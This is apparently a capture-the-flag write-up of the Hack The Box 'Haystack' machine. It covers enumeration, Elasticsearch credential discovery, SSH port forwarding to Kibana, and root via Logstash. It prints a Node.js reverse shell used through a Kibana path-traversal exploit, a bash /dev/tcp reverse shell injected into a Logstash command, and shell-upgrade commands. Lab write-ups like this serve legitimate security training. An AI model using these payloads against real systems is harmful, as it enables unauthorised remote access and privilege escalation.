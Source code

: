 # [Haystack](https://app.hackthebox.com/machines/Haystack)

```bash
nmap -p- --min-rate 5000 10.10.10.115 -Pn  
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,9200 10.10.10.115 -Pn 
```

![Alt text](img/image-1.png)


While I got request to port 9200, I see JSON data.

![Alt text](img/image-2.png)


Let's do `directory enumeration` via `gobuster` command.
```bash
gobuster dir -u http://10.10.10.115:9200/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


I found `/quotes`,`/bank`,`/_stats`,`/template`,`_search`,

Let's do `curl` to these endpoints.

I find user's information from `/_search` endpoint.

![Alt text](img/image-3.png)

Let's search data for `clave` user on `/quotes/_search` endpoint.
```bash
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq -c '.hits.hits[]' | grep clave
```

![Alt text](img/image-4.png)


Let's translate these on Google Translate.

![Alt text](img/image-5.png)


Let's decode these data via [Cyberchef](https://cyberchef.io/)

![Alt text](img/image-6.png)

Let's connect into machine via these grabbed credentials.

security: spanish.is.key


user.txt

![Alt text](img/image-7.png)


While running `netstat -tpln`.

![Alt text](img/image-8.png)


I see that port `5601` is kibana by `curl` command.
```bash
curl http://localhost:5601
```

![Alt text](img/image-9.png)



Let's do `Local Port Forwarding` to see port (5601) for our target.

```bash
ssh -L 5602:localhost:5601 security@10.10.10.115
```

![Alt text](img/image-10.png)


Now, on my kali machine, I can see this `kibana` on port `5602`.
```bash
curl http://localhost:5602
```

![Alt text](img/image-11.png)

![Alt text](img/image-12.png)

I looked at version of `kibana` on `Managaement` section.

![Alt text](img/image-13.png)

Version is `6.4.2`.

I searched publicly known exploit for this version of `Kibana`.

That's [CVE-2018-17426](https://github.com/mpgn/CVE-2018-17246)

For reverse shell, I create `.js` file and write reverse shell commands into here.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

![Alt text](img/image-14.png)

2.It's time to browse this malicious reverse shell `dr4ks.js`
```bash
curl "http://127.0.0.1:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/dr4ks.js"
```

![Alt text](img/image-15.png)


Hola, I got reverse shell from port `1337`.

![Alt text](img/image-16.png)

Let's make interactive shell.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-17.png)


As there's `kibana` is located, we can assume that there's also `logstash` is located, let's search this on processes as below.
```bash
ps awuxx | grep logstash
```

![Alt text](img/image-18.png)


This is running by `root` user.

I read execution of this from `/etc/logstash` via `.conf` files

For abusing, let's add our reverse shell payload into `log` section.

```bash
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.2/1338 0>&1'" > /opt/kibana/logstash_dr4ks
```

I got reverse shell as root user from `1338`.

![Alt text](img/image-19.png)

root.txt

![Alt text](img/image-20.png)